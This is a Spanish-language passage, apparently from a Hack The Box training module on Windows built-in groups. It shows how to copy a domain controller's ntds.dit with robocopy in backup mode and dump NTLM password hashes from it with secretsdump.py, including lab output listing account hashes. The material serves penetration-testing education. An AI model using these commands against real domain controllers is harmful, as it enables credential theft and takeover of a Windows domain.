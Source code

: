   Grupos incorporados de Windows

```shell-session
xnoxos@htb[/htb]$ secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL

Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xc0a9116f907bd37afaaa845cb87d0550
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 85541c20c346e3198a3ae2c09df7f330
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WINLPE-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7abf052dcef31f6305f1d4c84dfa7484:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a05824b8c279f2eb31495a012473d129:::
htb-student:1103:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
svc_backup:1104:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
bob:1105:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
hyperv_adm:1106:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
printsvc:1107:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::

<SNIP>
```

---

## Robocopy

#### Copiar archivos con robocopy

La utilidad incorporada[robocopy](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy)Se puede usar para copiar archivos en modo de copia de seguridad también. Robocopy es una herramienta de replicación de directorio de línea de comandos. Se puede utilizar para crear trabajos de respaldo e incluye características como copia multiproceso, reintento automático, la capacidad de reanudar la copia y más. La robocopy difiere del`copy`Comando en eso en lugar de simplemente copiar todos los archivos, puede verificar el directorio de destino y eliminar los archivos ya no en el directorio de origen. También puede comparar archivos antes de copiar para ahorrar tiempo al no copiar archivos que no se han cambiado desde que se ejecutó el último trabajo de copia/copia de seguridad.

  Grupos incorporados de Windows

```cmd-session
C:\htb> robocopy /B E:\Windows\NTDS .\ntds ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Thursday, May 6, 2021 1:11:47 PM
   Source : E:\Windows\NTDS\
     Dest : C:\Tools\ntds\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

          New Dir          1    E:\Windows\NTDS\
100%        New File              16.0 m        ntds.dit

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
```